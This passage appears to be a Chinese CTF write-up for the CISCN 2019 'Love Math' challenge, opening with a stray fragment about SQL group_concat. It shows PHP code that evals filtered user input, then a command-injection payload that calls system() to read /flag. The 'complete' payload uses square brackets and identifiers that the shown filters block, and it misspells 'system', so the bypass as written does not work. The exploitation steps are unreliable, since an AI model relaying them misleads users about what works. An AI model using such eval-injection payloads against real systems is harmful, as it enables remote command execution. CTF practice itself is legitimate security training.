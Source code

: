 其中group_concat(参数)，对参数进行修改，访问每一个字段，结果如下：

## [CISCN 2019 初赛]Love Math

`代码审计`

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

如果想得到flag，需要向该页面提交一个c参数，长度不超过80，且限制了很多符号比如常见的空白符号，引号和中括号。同时如果使用函数，函数名必须在白名单中，最终构造好的内容如果通过了限制会被eval执行。很明显，如果要得到flag只靠几个数学函数是没有希望的，需要想办法调用system函数。一种理想的payload是下面这样的：
`c=system("cat /flag")`

但是如何绕过函数和引号的限制呢？引号其实可以删掉，删掉引号命令还是可以执行。对于函数，可以利用动态函数的性质，即字符串做函数名，加上括号即可被当作函数执行：

```
c=($_GET[a])($_GET[b])
```

在上面的例子中，如果a=syetem,b=cat /flag，即可执行system(cat /flag)。

完整的payload如下：
`c=($_GET[a])($_GET[b])&a=system&b=cat /flag`
